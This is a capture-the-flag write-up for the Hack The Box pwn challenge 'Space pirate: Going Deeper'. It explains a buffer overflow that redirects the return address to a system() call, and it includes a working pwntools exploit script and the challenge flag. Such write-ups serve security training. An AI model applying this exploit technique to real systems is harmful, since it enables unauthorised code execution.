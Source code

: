# Space pirate: Going Deeper
> Write-up author: jon-brandy
## DESCRIPTION:
We are inside D12! We bypassed the scanning system, and now we are right in front of the Admin Panel. 
The problem is that there are some safety mechanisms enabled so that not everyone can access the admin panel and become the user right below Draeger. 
Only a few of his intergalactic team members have access there, and they are the mutants that Draeger trusts. 
Can you disable the mechanisms and take control of the Admin Panel?

## HINT:
- NONE
## STEPS:
1. Unzipping the zip file resulting to a 64 bit binary file.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/7891a42f-5843-4d71-ac5b-7667676e6464)


2. Let's check the binary's protections.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/0e695117-aab9-468e-919e-be825df29cbc)


3. Let's decompile the binary.
4. At the `main()` function, the `admin_panel()` function shall be our interest because it's where our input accepted.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/b5c990b1-807d-401c-9ff1-d311b50d39cd)


5. We can get the flag if our previous parameters are the same as these:

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/11312e9c-cff6-4c7a-9645-074ee185edf4)


6. Anyway there's a `system()` call that auto cat the flag.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/94239da8-ad83-443d-885c-80c0740dfeed)


![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/4471baf8-7d30-4303-8565-84929f5592f7)


7. Hence the pwn concept is to control the RIP by overflowing the buffer then add the `lea` offset.

```
padding + lea_offset
```

8. First we need to find the offset for RIP.
9. Let's use peda.

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/3d4087da-394d-4189-b8ee-b356d7ae7a3d)


10. Sadly it does not show us the bytes, hence we need to find it manually.
11. But the problem is, since we want to use the `system()` approach, hence we can't determine if the padding is correct or not, because it shall gave us the "EOF" statement.
12. Then let's assume to use 57 right now.
13. Next, grab the `lea` offset

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/f93f106f-32b7-4525-85b8-a9ccf7d4c8db)


14. Let's craft the script.

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:  
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  
        return process([exe] + argv, *a, **kw)

exe = './sp_going_deeper'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'

sh = start()

padding = 57 

lea_offset = 0x0000000000400b12
info('lea offset --> %#0x', lea_offset)

p = flat([
    asm('nop') * padding,
    lea_offset
])

sh.sendlineafter(b'>', b'1')
sh.sendlineafter(b':', p)
sh.interactive()
```

> RESULT

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/7af41ac8-6d87-4a6a-8d8b-170c9780f195)


15. Let's lowered it to 56.

> RESULT

![image](https://github.com/Bread-Yolk/hackthebox/assets/70703371/84427b43-f406-43bc-bcc1-ba5fb0bd3f1a)


16. Got the flag!
17. Let's test it remotely then.

> RESULT

![Uploading image.png…]()


18. Got the flag!

## FLAG

```
HTB{d1g_1n51d3..u_Cry_cry_cry}
```
